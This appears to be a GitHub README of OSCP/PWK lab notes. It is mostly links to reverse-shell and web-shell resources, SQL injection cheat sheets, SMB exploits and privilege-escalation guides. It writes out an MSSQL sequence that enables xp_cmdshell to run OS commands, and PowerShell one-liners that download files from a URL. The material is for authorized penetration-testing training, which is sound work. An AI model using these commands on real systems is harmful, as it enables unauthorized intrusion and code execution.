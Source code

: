 OSCP Arsenal
============
The following are guilds, tools, and tip that I found good to have in the back pocket during PWK labs.

I found this to be a pretty excellent cheat sheet in general: https://github.com/wwong99/pentest-notes/blob/master/oscp_resources/OSCP-Survival-Guide.md

Payloads for all the things: https://github.com/swisskyrepo/PayloadsAllTheThings

Initial Enumeration
-------------------
Amazing tool: https://github.com/Tib3rius/AutoRecon

Good for scanning UDP: https://tools.kali.org/information-gathering/unicornscan

Reverse Shells
--------------
Methods of establishing an initial rev shell: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

And many more: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

And to power them up to TTYs: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

Web Reverse Shells
------------------
Upload the payload to the target's web root, browse to it, pop!

### ASP
For Windows IIS servers your best bet is some kind of ASP shell. They can be generated by MSFVenom with the asp, aspx or aspx-exe formats. Not sure exactly when to use each one, just try all three!

### PHP
If the server is Apache, it's probably part of LAMP/XAMPP.

Windows: https://github.com/Dhayalanb/windows-php-reverse-shell

Linux: https://github.com/pentestmonkey/php-reverse-shell

### JSP
https://blog.netspi.com/hacking-with-jsp-shells/

SQL Injection
-------------
https://portswigger.net/web-security/sql-injection/cheat-sheet

SQL to Execution
----------------
MySQL UDF: https://www.exploit-db.com/exploits/1181

MSSQL:

    EXEC sp_configure 'show advanced options', 1
    RECONFIGURE WITH OVERRIDE
    GO
    EXEC sp_configure 'xp_cmdshell', 1
    RECONFIGURE WITH OVERRIDE
    GO
    EXEC xp_cmdshell 'command_goes_here'
    GO

Port Forwarding
---------------
Use pfwd (.py or .go) from this repo. Note, you can cross compile easily with go to make a Windows port forwarding executable!

Powershell One-Liners
---------------------
curl: (new-object system.net.webclient).DownloadString('file_url')

wget: (new-object system.net.webclient).DownloadFile('file_url','path_on_disk')

SMB Exploits
------------
MS08-067: https://github.com/andyacer/ms08_067

MS17-010: https://github.com/helviojunior/MS17-010

PE guides
---------
https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html
https://hackingandsecurity.blogspot.com/2017/09/oscp-linux-priviledge-escalation.html

PE workshop: https://github.com/sagishahar/lpeworkshop

